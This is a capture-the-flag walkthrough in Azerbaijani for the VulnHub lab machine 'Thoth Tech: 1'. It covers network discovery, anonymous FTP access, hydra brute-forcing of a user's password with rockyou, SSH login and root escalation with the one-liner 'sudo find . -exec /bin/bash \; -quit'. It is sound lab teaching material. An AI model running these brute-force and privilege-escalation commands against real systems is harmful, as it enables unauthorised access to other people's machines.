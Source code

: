 # Thoth Tech 1 CTF Həlli

### CTF ətraflı izah [Link](https://rufan0.github.io/blog/Thoth-Tech1)

- Salam hər kəsə

- Bu gün sizinlə Thoth Tech: 1 adlı ctfi həll edəcəyik

[Yükləmə linki](https://www.vulnhub.com/entry/thoth-tech-1,734/)

- .ova faylını Virtualbox-a İMPORT edirik.

- ip adresi tapdıqdan sonra nmap ilə port scan edirik.
```
sudo netdiscover -r 192.168.1.0/24
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

- İlk olaraq 80 portu açıq olduğuna görə web sayta daxil oldum və düz əməlli heçnə tapa bilmədim :D daha sonra nmap axtarışda ftp portunun açıq olduğunu və Anonymous olaraq daxil olmağın mümkün olduğunu gördüm

- ftp portuna bağlanmaq üçün terminal üzərindən

` ftp <IP adress>`


`ftp 192.168.1.105`

- `ls` əmrini icra edək görəciyik ki, `note.txt` adlı bir fayl var daha sonra more əmri ilə faylın içini oxuyaq.

`more note.txt`

- Dear pwnlab,
- My name is jake. Your password is very weak and easily crackable, I think change your password



- Bu qeydə nəzər salsaq istifadəçi adının pwnlab və parolunun zəif olduğunu görərik, elə isə bruteforce edə bilərik. Həm FTP, həm də SSH xidmətlərinin açıq olduğu bu hallarda mən FTP parolunu sındırmağa və onu SSH xidmətində təkrar istifadə etməyə üstünlük verirəm. Bunun səbəbi, SSH serverlərinin bruteforcing-ə məhdudiyyətlər qoyması, yəni sorğuları məhdudlaşdırmasıdır.

```
hydra -l pwnlab -P /usr/share/wordlists/rockyou.txt 192.168.1.105 ftp
```

- İndi biz SSH serverinə daxil ola bilərik.

```
ssh istiadəçi adı @ ip

ssh username @ ip

ssh pwnlab@192.168.1.105
```

- User flag əldə etdik root folderinə daxil olmaq istəfim ancaq alınmadı, indi isə Privilege Escalation edib root olmalıyıq ki, root flagini əldə edək.

- Sistemdə git olub olmadığını yoxladım və var.

- Elə isə /tmp/ faylına keçib [LinEnum.git](https://github.com/rebootuser/LinEnum) yükləyək və işə salaq.


- Və boom boşluğu tapdıq!!

```
sudo find . -exec /bin/bash \; -quit
```

- Bu əmr ilə artıq biz root olduq
